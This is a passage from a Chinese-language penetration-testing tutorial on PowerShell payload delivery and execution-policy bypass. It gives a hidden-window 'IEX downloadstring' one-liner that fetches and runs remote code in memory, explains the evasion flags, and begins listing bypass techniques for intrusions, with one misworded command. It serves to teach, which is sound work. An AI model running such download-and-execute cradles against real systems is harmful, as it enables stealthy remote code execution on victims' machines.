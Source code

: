 - 本地版
- 远程加载版
- 无阶段（Stageless）版本

其中，远程下载执行是最常见的形式，特点是直接在内存中运行，不在硬盘上留下任何文件。例如，使用以下命令：

```powershell
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://x.x.x.x/a'))"
```

参数解释

```powershell
Invoke-Expression（IEX的别名）：用来把字符串当作命令执行。
WindowStyle Hidden（-w Hidden）：隐藏窗口
Nonlnteractive（-NonI）：非交互模式，PowerShell不为用户提供交互的提示。
NoProfile（-NoP）：PowerShell控制台不加载当前用户的配置文件。
Noexit（-Noe）：执行后不退出Shell。
EncodedCommand（-enc）: 接受base64 encode的字符串编码，避免一些解析问题
```

### powershell六种执行策略

- Unrestricted 权限最高，可以不受限制执行任意脚本
- Restricted **默认策略**，不允许任意脚本的执行
- AllSigned 所有脚本必须经过签名运行
- RemoteSigned 本地脚本无限制，但是对来自网络的脚本必须经过签名
- Bypass 指定白名单文件，没有任何限制和提示
- Undefined 没有设置脚本的策略

**进入powershell查看当前机器执行策略** 

```powershell
Get-ExecutionPolicy
```

**通过管理员权限来修改默认执行策略为Unrestricted**

```powershell
Set-ExecutionPolicy Unrestricted
```

### 如何绕过执行策略

我们在渗透中，遇到执行策略配置是默认不执行的，我们再去通过管理员权限去修改就太鸡肋，动作太大了，所以便有了绕过执行策略，去执行我们的脚本以及powershell命令，下面来介绍几种常见的绕过方式。

为便于演示，我们先将执行策略恢复为默认策略`Restricted`(不允许任意脚本的执行)

```powershell
Get-ExecutionPolicy Restricted
```

#### 文件落地

1. 本地读取然后通过管道符运行

```powershell
powershell Get-Content 1.ps1 | powershell -NoProfile -
```

